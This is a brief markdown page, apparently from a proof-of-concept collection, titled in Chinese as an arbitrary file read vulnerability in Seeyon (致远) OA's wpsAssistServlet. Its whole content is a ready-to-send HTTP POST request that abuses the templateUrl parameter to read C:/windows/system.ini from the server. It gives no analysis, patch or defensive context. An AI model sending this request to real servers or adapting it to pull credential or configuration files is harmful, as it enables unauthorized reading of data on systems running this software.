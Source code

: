 # 致远OA wpsAssistServlet任意文件读取漏洞

## 致远OA wpsAssistServlet任意文件读取漏洞

## POC
```
POST /seeyon/wpsAssistServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Content-Length: 47
Content-Type: application/x-www-form-urlencoded

flag=template&templateUrl=C:/windows/system.ini
```

